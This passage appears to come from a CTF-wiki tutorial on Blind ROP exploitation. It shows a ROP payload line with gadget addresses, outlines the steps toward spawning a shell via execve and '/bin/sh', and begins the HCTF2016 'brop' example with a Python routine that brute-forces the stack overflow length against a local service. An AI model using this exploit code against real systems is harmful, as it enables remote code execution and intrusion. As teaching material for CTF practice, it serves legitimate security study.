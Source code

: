 
```

payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)

```



#### Attack Summary


At this point, the attacker can already control the output function, so the attacker can output more content of the .text section in order to find more suitable gadgets. At the same time, the attacker can also find some other functions, such as dup2 or execve functions. Generally, the attacker will do the next thing at this time.


- Redirect socket output to input and output
- Look for the address of &quot;/bin/sh&quot;. In general, it is best to find a writable memory and use the write function to write the string to the appropriate address.
- Execve the execve to get the shell, and the execve is not necessarily in the plt table. At this point, the attacker needs to find a way to execute the system call.


### Examples


Here we take [HCTF2016&#39;s issuer missing](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/brop/hctf2016-brop) as an example. The basic idea is as follows


#### Determine stack overflow length


```python

def getbufferflow_length():
    i = 1

    while 1:

        try:

            sh = remote('127.0.0.1', 9999)

            sh.recvuntil('WelCome my friend,Do you know password?\n')

            sh.send(i * 'a')

            output = sh.recv()

            sh.close()

            if not output.startswith('No password'):

                return i - 1

            else:

                i += 1

        except EOFError:

            sh.close()

            return i - 1

```
